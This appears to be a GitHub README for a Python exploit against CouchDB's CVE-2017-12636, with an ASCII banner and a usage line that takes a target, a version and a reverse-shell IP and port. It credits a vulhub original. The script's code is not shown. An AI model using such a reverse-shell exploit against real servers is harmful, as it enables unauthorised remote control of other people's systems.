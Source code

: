 # CVE-2017-12636

Usage: python3 exp.py target version(1.6|2.1) reverseip reverseport

```
 _____ _   _ _____       _____  _____  __   ______     __   _____   ____  _____  ____
/  __ \ | | |  ___|     / __  \|  _  |/  | |___  /    /  | / __  \ / ___||____ |/ ___|
| /  \/ | | | |__ ______`' / /'| |/' |`| |    / /_____`| | `' / /'/ /___     / / /___
| |   | | | |  __|______| / /  |  /| | | |   / /______|| |   / /  | ___ \    \ \ ___ \
| \__/\ \_/ / |___      ./ /___\ |_/ /_| |_./ /       _| |_./ /___| \_/ |.___/ / \_/ |
 \____/\___/\____/      \_____/ \___/ \___/\_/        \___/\_____/\_____/\____/\_____/

github@RedTeamWing

[+]Usage: python3 exp.py target version(1.6|2.1) reverseip reverseport
```

change from https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py

XD:
